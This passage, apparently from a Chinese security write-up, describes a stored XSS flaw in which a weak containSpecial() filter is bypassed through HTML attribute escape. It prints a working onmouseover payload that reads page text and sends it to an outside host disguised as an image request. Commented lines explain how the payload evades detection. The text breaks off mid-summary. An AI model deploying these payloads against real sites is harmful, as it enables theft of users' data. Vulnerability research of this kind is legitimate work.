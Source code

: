 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUxMYhvbNTx2MbdTb6DpIaXKEAn03yDlS6OzNoxSlH2rc9jqM4lFdUc2QI2tQhgj73tKoya2Mhbfw/640?wx_fmt=png&from=appmsg "")  
  
  
DOM精准渗透/流量伪装技术：  
  
```
" onmouseover="alert(document.cookie)" x="    

" onmouseover="
  (new Image).src='https://x.xxx.xx.xx:8000/log?k='+encodeURIComponent(
    document.querySelector('.th_bg').innerText
  )
" x=" 

.th_bg             // 定位企业公告核心DOM节点
.innerText         // 文本提取避开HTML结构干扰
encodeURIComponent // 规避特殊字符警报
(new Image).src=   // 伪装图片请求
'http://'+IP+端口   // 绕过协议关键字检测
/log?k=            // 模拟正常日志请求

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUxMYhvbNTx2MbdTb6DpIaXJw6vxNrRicwM2dcgJpUInj0sicGbicK9sdia8cTUA9qRUojniazfEJHTj4w/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUxMYhvbNTx2MbdTb6DpIaXZcMQxRC7sbicUAiaebTKF4yAnASOiaZhfwqA8KOgfZZB2AagbQZBO3b0Q/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞核心突破点**  
：  
  
  
- 无视  
containSpecial()  
函数对  
$^<>  
和  
script  
的检测  
  
- 利用前端过滤失效实现HTML属性逃逸  
- 实现从基础弹窗到业务数据窃取的攻击  
- 输入检测盲区 + 渲染层无过滤 = 持久化攻击链  
# 0x3. 总结  
  
  
**根本漏洞链**  
：  
  
     无效过滤函数 → 事件处理器白名单缺失 → 属性逃逸构造 → DOM数据渗出  
  
  
**完整漏洞链**  
：  
  